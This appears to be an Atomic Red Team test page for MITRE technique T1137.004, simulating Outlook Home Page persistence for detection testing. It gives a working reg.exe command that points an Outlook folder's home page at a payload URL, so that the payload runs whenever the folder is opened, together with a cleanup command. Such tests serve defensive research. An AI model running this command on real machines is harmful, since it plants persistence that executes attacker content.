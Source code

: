 ```yaml
---
tags: [T1137_004, atomic_test]
filename: "[[T1137.004|T1137.004 - Office Application Startup: Outlook Home Page]]"
---
```

# T1137.004 - Office Application Startup: Outlook Home Page

## Atomic Test #1 - Install Outlook Home Page Persistence
This test simulates persistence being added to a host via the Outlook Home Page functionality. This causes Outlook to retrieve URL containing a malicious payload every time the targeted folder is viewed.

Triggering the payload requires manually opening Outlook and viewing the targetted folder (e.g. Inbox).

**Supported Platforms:** Windows


**auto_generated_guid:** 7a91ad51-e6d2-4d43-9471-f26362f5738e





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | URL to Outlook Home Page containing the payload to execute (can be local file:// or remote https://) | string | file://PathToAtomicsFolder&#92;T1137.004&#92;src&#92;T1137.004.html|
| outlook_version | Version of Outlook that is installed | float | 16.0|
| outlook_folder | Name of the Outlook folder to modify the homepage setting for | string | Inbox|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /t REG_SZ /d #{url} /f
```

#### Cleanup Commands:
```cmd
reg.exe delete HKCU\Software\Microsoft\Office\#{outlook_version}\Outlook\WebView\#{outlook_folder} /v URL /f >nul 2>&1
```





<br/>
